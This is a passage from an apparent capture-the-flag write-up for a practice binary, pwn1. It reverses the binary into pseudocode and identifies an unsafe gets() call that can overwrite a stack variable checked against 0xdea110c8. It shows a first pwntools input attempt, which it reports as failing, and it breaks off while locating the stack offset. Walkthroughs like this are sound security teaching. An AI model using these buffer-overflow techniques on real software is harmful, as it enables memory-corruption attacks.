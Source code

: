 	ebx     = GOT base [00001fb0]
	sub_530 = fgets    [00001fc4]
	sub_510 = strcmp   [00001fbc]
	sub_520 = gets     [00001fc0]

Let's rewrite the code 

	psuedocode: 
	main() {
	    // Some initialising first
	    setvbuf()
	    // ...
	    
	    // Question 1 --------------------------------
	    print "What... is your name?"
	    fgets()

	    if (strcmp() != 0) // if not matching
	    {
	        print "I don't know that! Auuuuuuuugh!"
	    }

	    // Question 2 --------------------------------
	    print "What... is your quest?"
	    fgets()

	    if (strcmp() != 0) // if not matching
	    {
	        print "I don't know that! Auuuuuuuugh!"
	    }

	    // Question 3 --------------------------------
	    print "What... is my secret?"
	    gets()

	    if (*(ebp + 0xfffffff0) == 0xdea110c8) {
	        print_flag();
	    } else {
	        print "I don't know that! Auuuuuuuugh!"
	    }
	}

Notice that question 3 uses `gets [sub_520]` instead of `fgets [sub_530]`.

Doing this yields no progress

	python -c "\
		from pwn import *;
		print 'Sir Lancelot of Camelot';
		print 'To seek the Holy Grail.'; 
		print p32(0xdea110c8);
	" | ./pwn1

Hence, now we need to check where `*(ebp + 0xfffffff0)` points to...

In assembly code, the first 2 strcmp checks for `ebp-0x3b`.
	